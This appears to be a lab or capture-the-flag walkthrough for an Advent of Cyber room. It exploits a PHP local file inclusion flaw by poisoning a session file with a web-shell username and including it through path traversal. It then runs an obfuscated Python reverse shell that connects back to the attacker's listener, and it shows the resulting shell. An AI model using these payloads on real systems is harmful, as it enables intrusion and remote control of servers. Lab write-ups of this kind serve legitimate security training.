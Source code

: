 Start new Firefox window and get `PHPSESSID=ns3p3gi1hj3bktt6u03d4j3t24` from request header

Inject php code into log by logging in with username: `<?php echo 'zebralmao';system($_GET['cmd']);?>`

Visit LFI page prove command execution `10.10.204.37/index.php?err=../../../../../tmp/sess_ns3p3gi1hj3bktt6u03d4j3t24&cmd=whoami`

Start nc listener on port 9876
```
nc -lvnp 9876
```

Inject python reverse shell 
```python
python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.9.88.232",9876));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'
```

by visiting `10.10.204.37/index.php?err=../../../../../tmp/sess_ns3p3gi1hj3bktt6u03d4j3t24&cmd=python -c 'a=__import__;b=a("socket");p=a("subprocess").call;o=a("os").dup2;s=b.socket(b.AF_INET,b.SOCK_STREAM);s.connect(("10.9.88.232",9876));f=s.fileno;o(f(),0);o(f(),1);o(f(),2);p(["/bin/sh","-i"])'`


And we get a reverse shell
```
kali@kali:~$ nc -lvnp 9876
listening on [any] 9876 ...
connect to [10.9.88.232] from (UNKNOWN) [10.10.204.37] 46866
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
lfi-aoc-awesome-59aedca683fff9261263bb084880c965
```